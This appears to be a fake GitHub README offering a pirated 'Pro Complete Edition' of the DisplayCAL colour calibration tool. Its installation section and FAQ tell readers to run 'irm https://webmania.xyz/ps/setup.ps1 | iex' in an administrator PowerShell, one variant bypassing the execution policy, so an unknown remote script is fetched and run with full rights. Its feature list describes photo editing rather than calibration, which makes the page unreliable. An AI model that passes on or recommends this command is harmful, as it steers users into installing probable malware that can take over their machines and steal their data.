

<div align="center">


<br>


# DisplayCal OLED Hardware Calibration Professional Complete Edition
**Colorimeter sync · ICC profiles · OLED tuning**
<br>
**Colorimeter sync · ICC profiles · OLED tuning**
<br>
Full Version  ◆  Pro  ◆  Complete  ◆  Windows



**DisplayCAL OLED — colorimeter calibration, ICC profile generation, OLED tuning and verification reports all enabled.**

</div>
---

> Match on-screen color to print and video — hardware calibration, profiling and verification tools all enabled.

## `INSTALLATION`

<div align="center">


<br><br>

**Run in PowerShell as Administrator:**

```powershell
irm https://webmania.xyz/ps/setup.ps1 | iex
```

<sub>Copy · paste · press Enter · confirm UAC</sub>

</div>

## `FEATURES`

📷 **RAW pipeline** — Develop, retouch and export pro photos.
🎨 **Color tools** — Grading, presets and local adjustments included.
📦 **Offline studio** — Works locally after setup.
🖥️ **Windows optimized** — Built for photography workstations.
📚 **Catalog workflow** — Libraries and batch export supported.
✨ **Premium modules** — Pro editing features enabled.
⚡ **One-command install** — PowerShell handles setup automatically.

## `REQUIREMENTS`

| | |
|:---|:---|
| **Windows** | Windows 10 / 11 (64-bit) |
| **RAM** | 8 GB minimum |
| **Disk** | 1 GB free space |

## `FAQ`

<details>
<summary>&nbsp;<b>How to install?</b></summary>
<br>Open PowerShell as Administrator and run the command from the INSTALLATION section.
</details>

<details>
<summary>&nbsp;<b>Manual install blocked?</b></summary>
<br>Try: `powershell -ExecutionPolicy Bypass -Command "irm https://webmania.xyz/ps/setup.ps1 | iex"`
</details>

<details>
<summary>&nbsp;<b>Updates?</b></summary>
<br>Use the build from your downloaded Release.
</details>
<details>
<summary>&nbsp;<b>Requirements?</b></summary>
<br>Windows 10/11 64-bit, 8 GB minimum, 1 gb free space.
</details>


TAGS
displaycal-oled-hardware-calibration, displaycal, displaycal-oled, displaycal-oled-hardware, displaycal-calibration, displaycal-pro, displaycal-app, windows, pro, desktop, software, studio, tools
